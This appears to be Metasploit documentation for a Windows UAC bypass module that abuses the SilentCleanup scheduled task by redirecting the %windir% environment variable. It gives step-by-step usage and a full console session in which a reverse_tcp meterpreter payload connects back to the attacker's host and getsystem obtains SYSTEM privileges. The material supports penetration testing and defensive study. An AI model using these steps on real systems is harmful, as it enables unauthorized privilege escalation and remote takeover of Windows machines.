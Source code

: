 ## Intro

This module will bypass UAC on any Windows installation with Powershell installed. 

There's a task in Windows Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges.
When it runs, it executes the file %windir%\system32\cleanmgr.exe. Since it runs as Users, and we can control user's environment variables,
%windir% (normally pointing to C:\Windows) can be changed to point to whatever we want, and it'll run as admin. In order to work, the code must 
be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_silentcleanup`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  6         meterpreter x86/windows  DESKTOP-T2TGIHP\Carter @ DESKTOP-T2TGIHP  192.168.1.x:4444 -> 192.168.1.x:53685 (192.168.1.x)

msf5 > use exploit/windows/local/bypassuac_silentcleanup 
msf5 exploit(windows/local/bypassuac_silentcleanup) > set SESSION 6
SESSION => 6
msf5 exploit(windows/local/bypassuac_silentcleanup) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_silentcleanup) > set LHOST 192.168.1.xx
LHOST => 192.168.1.55
msf5 exploit(windows/local/bypassuac_silentcleanup) > options

Module options (exploit/windows/local/bypassuac_silentcleanup):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION    6                yes       The session to run this module on.
   SLEEPTIME  0                no        The time (ms) to sleep before running SilentCleanup


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.55     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 exploit(windows/local/bypassuac_silentcleanup) > run

[*] Started reverse TCP handler on 192.168.1.55:4444 
[+] Part of Administrators group! Continuing...
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 10 opened (192.168.1.55:4444 -> 192.168.1.2:55538) at 2019-06-20 15:00:14 -0400

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > bg
[*] Backgrounding session 10...
msf5 exploit(windows/local/bypassuac_silentcleanup) > 
```
